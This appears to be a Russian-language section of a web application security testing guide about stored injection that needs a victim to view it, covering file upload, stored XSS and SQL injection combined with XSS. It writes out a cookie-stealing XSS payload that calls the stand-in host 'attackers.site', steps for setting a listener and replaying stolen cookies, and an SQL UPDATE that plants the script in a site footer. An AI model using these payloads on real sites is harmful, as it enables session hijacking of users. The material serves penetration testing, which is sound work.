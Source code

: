 ## Задачи тестирования

- Выявить хранимые инъекции, которым требуется этап отзыва.
- Понять, в чём заключается этот этап отзыва.
- Установить прослушиватели (англ. listeners) или активировать этап отзыва, если это возможно.

## Как тестировать

### Тестирование методом чёрного ящика

#### Пример с загрузкой файла

Посмотрите какой тип контента разрешён для загрузки в web-приложение, и результирующий URL для загруженного файла. Загрузите файл, который будет эксплуатировать компонент на локальной рабочей станции пользователя при просмотре или загрузке. Отправьте своей жертве электронное письмо или другой вид уведомления, чтобы побудить его/её просмотреть страницу. Ожидаемый результат — эксплойт сработает, когда пользователь будет просматривать результирующую страницу или загрузит и запустит файл с доверенного сайта.

#### Пример с XSS на доске объявлений

1. Введите код JavaScript в качестве значения для уязвимого поля, например `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`
2. Направьте пользователей на просмотр уязвимой страницы или дождитесь, пока пользователи ее просмотрят. Установите «прослушиватель» на хосте `attackers.site`, прослушивающий все входящие подключения.
3. Когда пользователи просматривают уязвимую страницу, запрос, содержащий их cookie  (`document.cookie` включается в состав запрашиваемого URL), и отправляется на хост `attackers.site`, например: `GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE; HTTP/1.1`
4. Используйте эти cookie, чтобы выдавать себя за пользователей на уязвимом сайте.

#### Пример SQL-инъекции

Обычно в этом наборе примеров используются XSS-атаки посредством эксплуатации SQL-инъекций. Первое, что нужно проверить, — есть ли на целевом сайте уязвимость SQL-инъекций. Это описано в [Тестировании SQL-инъекций](05-Testing_for_SQL_Injection.md). Для каждой уязвимости SQL-инъекции существует базовый набор ограничений, описывающих тип запросов, которые разрешено выполнять злоумышленнику/пентестеру.

Затем тестировщик должен сопоставить разработанные им XSS-атаки с записями, которые ему разрешено вставлять.

Аналогичным образом, как и в предыдущем примере XSS, используйте поле web-страницы, уязвимое для SQL-инъекций, чтобы изменить значение в базе данных, которое будет использоваться приложением в качестве входных данных для отображения на сайте без надлежащей фильтрации (сочетание SQL-инъекции и XSS). Например, предположим, что в базе данных есть таблица `footer` со всеми нижними колонтитулами для страниц web-сайта, включая поле `notice` с юридическим уведомлением, которое появляется внизу каждой web-страницы. Вы можете использовать следующий запрос, чтобы вставить код JavaScript в поле `notice` таблицы `footer`.

```sql
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
```
